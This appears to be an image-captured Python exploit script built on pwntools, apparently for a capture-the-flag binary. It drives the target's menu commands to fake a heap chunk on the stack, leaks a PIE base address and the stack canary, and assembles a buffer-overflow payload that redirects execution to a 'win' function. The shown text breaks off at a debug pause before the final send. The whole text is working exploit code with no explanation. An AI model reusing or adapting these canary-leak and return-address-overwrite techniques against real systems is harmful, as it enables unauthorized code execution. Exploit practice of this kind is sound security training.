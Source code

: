 ```python
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Offset: ", str(offset).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def stack_free():
    target.sendlineafter(b": ", b"stack_free")


def stack_scanf(data):
    target.sendlineafter(b": ", b"stack_scanf")
    target.sendline(data)


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = flat(
        b"A" * 0x30,
        0,
        0x401,
    )
    stack_scanf(payload)
    stack_free()

    malloc(0, 0x3F0)
    echo(0, 0x18)
    target.recvuntil(b"Data: ")
    pie = int.from_bytes(target.recvline().strip(), "little") - 0x1B8D
    win = pie + 0x1409 + 5

    echo(0, 0x49)
    target.recvuntil(b"Data: ")
    canary = int.from_bytes(target.recvline().strip().rjust(0x8, b"\x00"), "little")

    target.success(f"pie: {hex(pie)}")
    target.success(f"win: {hex(win)}")
    target.success(f"canary: {hex(canary)}")

    payload = flat(
        b"A" * 0x48,
        canary,
        0,
        win,
    )
    raw_input("DEBUG")
```